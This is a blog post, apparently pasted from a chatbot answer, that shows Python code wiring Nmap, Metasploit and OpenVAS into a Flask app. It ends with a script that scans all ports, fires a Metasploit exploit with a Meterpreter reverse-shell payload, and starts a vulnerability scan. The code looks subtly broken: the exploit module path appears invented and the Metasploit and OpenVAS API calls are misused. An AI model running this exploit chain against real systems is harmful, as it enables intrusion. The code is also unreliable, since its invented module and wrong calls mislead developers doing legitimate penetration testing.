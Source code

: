 ```yaml
---
title: "An advanced threat modeling bot (ThreatSentry) - p3"
author: "c4r4nch0"
date: "2023-06-15"
draft: false
searchHidden: false
tags: ["threat modeling", "infosec", "coding"]
ShowToc: false
ShowBreadCrumbs: false
# cover:
#     image: "https://encrypted-tbn0.gstatic.com/images?q=tbn:ANd9GcSQud1wlz3Fl6brRiyQMKkg8XMhI2BE9J7SazqbG4DBOcbkVorYi34k1Y6axGErJj0L9LU&usqp=CAU"
#     # can also paste direct link from external site
#     # ex. https://i.ibb.co/K0HVPBd/paper-mod-profilemode.png
#     alt: "Bug Bounty Bootcamp"
#     caption: "Bug Bounty Bootcamp"
#     relative: false # To use relative path for cover image, used in hugo Page-bundles    
---
```

### Part 3: Integration with Penetration Testing Tools

Certainly! Here's an updated version using open-source tools for integration with a Flask application:

1. Nmap for Network Scanning:

   - Nmap is an open-source network scanning tool that helps identify hosts, open ports, and services running on a network.

   - You can use the python-nmap library, which provides a Python interface for Nmap, to integrate it into your Flask application.

   - Here's an example code snippet to perform a basic network scan using Nmap:

   ```python
   import nmap

   def perform_network_scan(target_ip):
       scanner = nmap.PortScanner()
       scanner.scan(target_ip, arguments='-p-')  # Scan all ports

       open_ports = []
       for host in scanner.all_hosts():
           for proto in scanner[host].all_protocols():
               for port in scanner[host][proto]:
                   if scanner[host][proto][port]['state'] == 'open':
                       open_ports.append(port)

       return open_ports
   ```

2. Metasploit Framework for Exploitation:

   - Metasploit Framework is an open-source penetration testing framework that provides a collection of exploit modules.

   - You can utilize the Metasploit Framework's msfrpc library to integrate it with your Flask application.

   - Here's an example code snippet to demonstrate executing a Metasploit module using the msfrpc library:

   ```python
   from msfrpc import MsfRpcClient

   def exploit_target(target_ip, target_port):
       client = MsfRpcClient('YOUR_METASPLOIT_API_TOKEN')
       exploit_module = client.modules.use('exploit', 'exploit/multi/http/webdav_internal_ip')

       exploit_module['RHOSTS'] = target_ip
       exploit_module['RPORT'] = target_port

       session = exploit_module.execute(payload='python/meterpreter/reverse_tcp')

       return session
   ```

3. OpenVAS for Vulnerability Scanning:

   - OpenVAS is an open-source vulnerability scanning tool that can identify security weaknesses in target systems.

   - You can use the python-gvm library, which provides a Python interface for OpenVAS/GVM, to integrate it into your Flask application.

   - Here's an example code snippet to initiate a vulnerability scan using OpenVAS:

   ```python
   from gvm.connections import TLSConnection
   from gvm.protocols.gmp import Gmp
   from gvm.transforms import EtreeTransform

   def initiate_vulnerability_scan(target_ip):
       connection = TLSConnection(hostname='openvas_server', port=9390)
       transform = EtreeTransform()

       with Gmp(connection, transform=transform) as gmp:
           gmp.authenticate('username', 'password')
           scan_id = gmp.create_task(target=target_ip)

           # Start the scan
           gmp.start_task(scan_id)

           return scan_id
   ```

Please note that these code snippets are simplified examples, and you would need to install the respective libraries (`python-nmap`, `msfrpc`, `python-gvm`) to use them in your Flask application. Additionally, ensure you have the necessary credentials and proper access to use these open-source tools within your application.

Now, for a practical example, lets do a script un python for testing local network and neighbors:

  ```python
    import nmap
    from msfrpc import MsfRpcClient
    from gvm.connections import TLSConnection
    from gvm.protocols.gmp import Gmp
    from gvm.transforms import EtreeTransform

    # Perform network scan using Nmap
    def perform_network_scan(target_ip):
        scanner = nmap.PortScanner()
        scanner.scan(target_ip, arguments='-p-')  # Scan all ports

        open_ports = []
        for host in scanner.all_hosts():
            for proto in scanner[host].all_protocols():
                for port in scanner[host][proto]:
                    if scanner[host][proto][port]['state'] == 'open':
                        open_ports.append(port)

        return open_ports

    # Exploit target using Metasploit Framework
    def exploit_target(target_ip, target_port):
        client = MsfRpcClient('YOUR_METASPLOIT_API_TOKEN')
        exploit_module = client.modules.use('exploit', 'exploit/multi/http/webdav_internal_ip')

        exploit_module['RHOSTS'] = target_ip
        exploit_module['RPORT'] = target_port

        session = exploit_module.execute(payload='python/meterpreter/reverse_tcp')

        return session

    # Initiate vulnerability scan using OpenVAS
    def initiate_vulnerability_scan(target_ip):
        connection = TLSConnection(hostname='openvas_server', port=9390)
        transform = EtreeTransform()

        with Gmp(connection, transform=transform) as gmp:
            gmp.authenticate('username', 'password')
            scan_id = gmp.create_task(target=target_ip)

            # Start the scan
            gmp.start_task(scan_id)

            return scan_id

    # Execute the scan, detect, and vulnerability check
    def execute_network_security_check(target_ip):
        # Network scan using Nmap
        open_ports = perform_network_scan(target_ip)

        # Exploit target using Metasploit Framework
        session = exploit_target(target_ip, 80)  # Adjust the target port as needed

        # Initiate vulnerability scan using OpenVAS
        scan_id = initiate_vulnerability_scan(target_ip)

        # Save the outputs to separate TXT files
        with open('network_scan_output.txt', 'w') as f:
            f.write('Open Ports:\n')
            for port in open_ports:
                f.write(f'{port}\n')

        with open('exploit_output.txt', 'w') as f:
            f.write('Exploit Session:\n')
            f.write(f'{session}\n')

        with open('vulnerability_scan_output.txt', 'w') as f:
            f.write('Scan ID:\n')
            f.write(f'{scan_id}\n')

        print('Network security check completed. Results saved to TXT files.')

    # Execute the script with your localhost IP as the target
    execute_network_security_check('localhost')
  ```
